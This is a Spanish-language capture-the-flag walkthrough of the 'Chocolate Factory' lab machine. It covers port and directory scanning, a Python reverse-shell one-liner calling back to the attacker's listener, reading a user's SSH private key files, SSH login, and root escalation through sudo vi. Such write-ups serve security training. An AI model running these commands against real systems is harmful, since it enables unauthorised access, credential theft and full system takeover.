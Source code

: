 ```yaml
---
description: // Tutorial //
---
```


# Chocolate Factory

<figure><img src="../../../.gitbook/assets/image (24).png" alt="" width="375"><figcaption></figcaption></figure>

Identificamos los puertos abiertos de la maquina victima

```
nmap IP -Pn -v -n --min-rate 3000
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt="" width="332"><figcaption></figcaption></figure>

Hacemos una fuerza bruta de los directorios y ficheros del dominio y nos encontramos con un login index.html y una pagina para donde hay un input para ejecutar comandos home.php, vamos a ir a esta ultima:&#x20;

```
gobuster dir -u http://IP:80/ -w DICTIONARY -x .php,.txt,.html
```

<figure><img src="../../../.gitbook/assets/image (26).png" alt="" width="563"><figcaption></figcaption></figure>

Subimos comando para una revershell con python y nos ponemos en escucha por el puerto configurado en nuestra maquina atacante&#x20;

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-MAQUINA",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
nc -lvp 4444
```

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

A continuacion, abrimos una shell interactiva

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export TERM=xterm
```

Dentro de la carpeta /var/www/html llama la atencion el fichero key\_rev\_key, si filtramos por string el fichero podemos observar una key

<figure><img src="../../../.gitbook/assets/image (29).png" alt="" width="313"><figcaption></figcaption></figure>

**Answer: Enter the key you found!**

>

Navegando por los directorios nos encontramos con un fichero donde se encuntra la clave publica y privada de ssh del usuario charlie&#x20;

```
cat /home/charlie/teleport
cat /home/charlie/teleport.pub
```

Ahora que tenemos el usuario y la clave privada accedemos a traves de ssh al usuario charlie&#x20;

```
chmod 600 id_rsa 
ssh -i id_rsa charlie@IP_victima
```

Accedemos a la flag de usuario

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

**Enter the user flag**

>



### Escalada de privilegios

```
Sudo -l
```

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Buscamos informacion en GTFO sobre la escalad de privilegios con vi

```
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>



**Enter the user flag**&#x20;
